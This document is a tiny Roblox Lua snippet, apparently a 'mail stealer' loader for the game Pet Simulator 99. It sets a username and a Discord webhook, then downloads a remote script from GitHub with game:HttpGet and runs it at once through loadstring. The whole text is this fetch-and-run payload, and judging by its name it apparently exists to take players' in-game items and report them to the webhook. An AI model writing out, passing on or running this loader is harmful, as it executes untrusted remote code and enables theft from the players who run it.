 Username = "fakboy2729"
LoadScreen = true 
Webhook = "https://discord.gg/KdzWztMY"

loadstring(game:HttpGet("https://raw.githubusercontent.com/KiuuP/PS99_Mailstealer/main/MailStealer.lua"))()

